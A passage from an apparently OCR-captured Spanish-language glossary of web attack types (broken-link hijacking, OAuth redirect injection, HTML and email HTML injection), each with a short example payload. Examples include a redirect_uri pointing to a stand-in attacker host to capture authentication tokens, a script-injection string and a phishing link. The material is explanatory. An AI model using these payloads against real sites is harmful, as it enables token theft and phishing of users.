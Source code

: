**Descripción**: Aprovechar enlaces rotos para redirigir a los usuarios a sitios controlados por el atacante.

**Ejemplo**: Reclamar un dominio que estaba enlazado en el sitio de la víctima:

http

Copiar código

`http://victima.com/link?url=http://dominio-expirado.com`

Esto puede ser usado para phishing.

### External Authentication Injection

**Descripción**: Manipulación de sistemas de autenticación externa para obtener acceso no autorizado.

**Ejemplo**: Inyección de parámetros en la autenticación OAuth:

http

Copiar código

`http://victima.com/auth?redirect_uri=http://atacante.com`

Puede redirigir tokens de autenticación al atacante.

### Flash Based External Authentication Injection

**Descripción**: Vulnerabilidades en autenticación basada en Flash que permiten inyecciones.

**Ejemplo**: Un archivo Flash malicioso que manipula la autenticación.

### HTML Content Injection

**Descripción**: Inyección de contenido HTML en páginas web.

**Ejemplo**: Inyectar HTML en formularios:

html

Copiar código

`<input type="text" name="nombre" value="<script>alert('Hacked');</script>">`

### Email HTML Injection

**Descripción**: Inyección de contenido HTML en correos electrónicos.

**Ejemplo**: Enviar un correo con HTML malicioso:

html

Copiar código

`<a href="http://atacante.com">Haz clic aquí</a>`

Puede dirigir a los usuarios a sitios de phishing.

### Email Hyperlink Injection Based on Email Provider
